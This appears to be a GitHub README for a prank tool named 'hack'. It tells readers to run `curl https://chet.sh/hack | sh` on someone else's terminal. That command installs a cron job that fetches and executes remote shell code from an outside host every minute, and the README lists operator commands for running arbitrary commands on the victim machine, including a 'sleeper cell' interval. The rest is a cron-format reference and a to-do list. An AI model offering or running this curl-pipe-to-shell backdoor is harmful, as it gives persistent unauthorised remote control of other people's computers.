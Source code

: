 # Hack

Start hacking someone by running this command from their Terminal: `curl https://chet.sh/hack | sh`. That sets up a cron job every minute which pings `curl https://chet.sh/live | sh`.

Now go to your commandline and we can start having some fun.

```
hack live exec "say hello world"
hack live interval 1y # sleeper cell
hack live cron "20 16 * * * * -- say 'its foe 20, ye better be toke-in'"
hack live reset
hack live forget
hack live rename jon
hack jon ...
```

# FYI

http://www.nncron.ru/help/EN/working/cron-format.htm

* * * * *
| | | | |
| | | | |
| | | | +---- Day of the Week   (range: 1-7, 1 standing for Monday)
| | | +------ Month of the Year (range: 1-12)
| | +-------- Day of the Month  (range: 1-31)
| +---------- Hour              (range: 0-23)
+------------ Minute            (range: 0-59)

# PS

How to make a Node.js CLI app: http://blog.npmjs.org/post/118810260230/building-a-simple-command-line-tool-with-npm

# PPS

Bought the domain name `chet.sh` here: https://www.nic.sh/

# To Do

- demo
- better readme
- better help
- better command validation
- configure with custom domain name